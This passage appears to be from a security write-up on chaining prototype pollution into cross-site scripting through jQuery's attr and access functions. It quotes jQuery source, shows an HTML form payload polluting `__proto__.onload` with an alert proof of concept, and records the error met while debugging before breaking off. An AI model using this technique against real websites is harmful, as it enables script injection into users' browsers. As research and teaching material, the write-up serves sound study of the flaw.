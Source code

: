 The parameter passed here is an object, and if the `.attr` function does not have specific checks, it could be affected by polluted parameters. In fact, in jQuery, the implementation of [attr](https://github.com/jquery/jquery/blob/3.7.1/src/attributes/attr.js#L16) is as follows:

``` js
jQuery.fn.extend( {
    attr: function( name, value ) {
        return access( this, jQuery.attr, name, value, arguments.length > 1 );
    },
}
```

The implementation of [access](https://github.com/jquery/jquery/blob/main/src/core/access.js#L12) is:

``` js
export function access( elems, fn, key, value, chainable, emptyGet, raw ) {
    var i = 0,
        len = elems.length,
        bulk = key == null;

    // Sets many values
    if ( toType( key ) === "object" ) {
        chainable = true;
        for ( i in key ) {
            access( elems, fn, i, key[ i ], true, emptyGet, raw );
        }
    }
}
```

If the key passed is an object, it will use `in` to retrieve each key. Since `in` retrieves properties on the prototype chain, we can pollute `onload` to let jQuery set the onload attribute.

The payload is as follows:

``` html
<form id=search>
  <input name=__proto__.onload value=alert(document.domain)>
  <input name=q value=react-d3><
</form>
```

It may seem fine, but upon testing, an error occurs:

```
Uncaught (in promise) TypeError: Cannot use 'in' operator to search for 'set' in alert(document.domain)
```

After a while of debugging, it was found that the error originated from this section when setting the `attr`:

``` js
// Attribute hooks are determined by the lowercase version
// Grab necessary hook if one is defined
if ( nType !== 1 || !jQuery.isXMLDoc( elem ) ) {
    hooks = jQuery.attrHooks[ name.toLowerCase() ] ||
        ( jQuery.expr.match.bool.test( name ) ? boolHook : undefined );
}

if ( value !== undefined ) {
    if ( value === null ) {
        jQuery.removeAttr( elem, name );
        return;
    }

    if ( hooks && "set" in hooks &&
        ( ret = hooks.set( elem, value, name ) ) !== undefined ) {
        return ret;
```